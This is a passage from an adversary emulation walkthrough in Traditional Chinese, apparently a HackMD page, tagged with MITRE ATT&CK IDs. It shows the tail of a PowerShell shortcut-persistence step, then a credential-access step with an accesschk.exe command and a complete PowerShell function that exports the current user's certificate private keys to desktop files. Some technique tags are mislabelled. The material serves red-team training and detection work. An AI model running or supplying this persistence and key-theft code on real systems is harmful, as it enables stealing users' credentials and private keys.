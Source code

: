```js=
        $shortcut.TargetPath = $targetPath
        $shortcut.Save()
    }
}

# 執行示例
Invoke-Persistence -PersistStep 1
Invoke-Persistence -PersistStep 2


```

## Step 6 - 憑證訪問

### 使用 accesschk.exe 實用工具（T1036）工具查看系統中的許可權和安全設置。
```shell=
 & "C:\Program Files\SysinternalsSuite\accesschk.exe"
```

### 攻擊者會收穫私鑰（T1145）
```shell=
function Get-PrivateKeys {
    # 獲取當前用戶的證書
    $certs = Get-ChildItem -Path Cert:\CurrentUser\My

    # 確保桌面路徑存在
    $desktopPath = [System.IO.Path]::Combine($env:USERPROFILE, "Desktop")

    foreach ($cert in $certs) {
        $privateKey = $cert.PrivateKey
        if ($privateKey) {
            Write-Output "Found private key for certificate: $($cert.Subject)"
            # 保存私鑰到文件
            $privateKeyFile = [System.IO.Path]::Combine($desktopPath, "$(($cert.Subject -replace '[^a-zA-Z0-9]','_')).key")
            $privateKeyContent = [System.Convert]::ToBase64String($privateKey.Export([System.Security.Cryptography.X509Certificates.X509ContentType]::Pkcs12, ""))
            [System.IO.File]::WriteAllText($privateKeyFile, $privateKeyContent)
            Write-Output "Private key saved to: $privateKeyFile"
        }
    }
}

# 執行函數
Get-PrivateKeys
```
### 存儲在本地Web瀏覽器（T1081，T1003）中的憑據。 然後，和密碼哈希（T1003）。
![image](https://hackmd.io/_uploads/rklw_sGIR.png)

